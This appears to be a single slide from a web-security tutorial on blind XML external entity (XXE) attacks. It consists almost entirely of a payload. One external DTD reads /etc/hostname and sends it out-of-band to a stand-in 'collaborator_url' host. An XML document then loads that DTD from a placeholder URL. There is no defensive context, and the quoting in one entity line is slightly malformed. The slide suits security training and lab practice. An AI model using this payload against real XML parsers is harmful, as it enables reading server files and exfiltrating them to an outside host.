

# Exploiting blind XXE exfiltrate data out-of-band
 Payloads used :-
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://collaborator_url/?x=%file;’>”>
%eval;
%exfil;
XML file :-
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>